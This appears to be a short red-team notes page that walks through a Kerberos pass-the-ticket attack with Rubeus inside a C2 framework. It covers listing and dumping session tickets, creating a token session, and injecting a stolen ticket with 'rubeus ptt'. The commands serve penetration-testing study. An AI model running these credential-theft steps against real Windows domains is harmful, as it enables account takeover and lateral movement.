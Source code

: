 # Rubeus

## Rubeus

### Pass the Ticket

#### - Show all session tickets

```
Rubeus triage
```

![](<../../../../.gitbook/assets/image (3) (1).png>)

#### - Dump the tickets

```
Rubeus dump
```

![](<../../../../.gitbook/assets/image (103).png>)

#### Loot are available in Data pane:

![](<../../../../.gitbook/assets/image (275).png>)

#### Copy the base64 ticket (bug from data interface, copy the interactive window)

![](<../../../../.gitbook/assets/image (311).png>)

#### Create a new session using MakeToken

```
MakeToken help

[!] Usage: MakeToken <username> <domain> <password>[ <logontype> ]
```

![](<../../../../.gitbook/assets/image (272).png>)

#### Create a new grunt session&#x20;

```
CreateProcessWithToken

[!] Usage: CreateProcessWithToken <command>[ <path> ]
```

![](<../../../../.gitbook/assets/image (101).png>)

#### Pass the ticket

```
rubeus ptt /ticket:
```

![](<../../../../.gitbook/assets/image (260).png>)

![](<../../../../.gitbook/assets/image (31).png>)

#### cifs ticket injected&#x20;

![](<../../../../.gitbook/assets/image (126).png>)

###
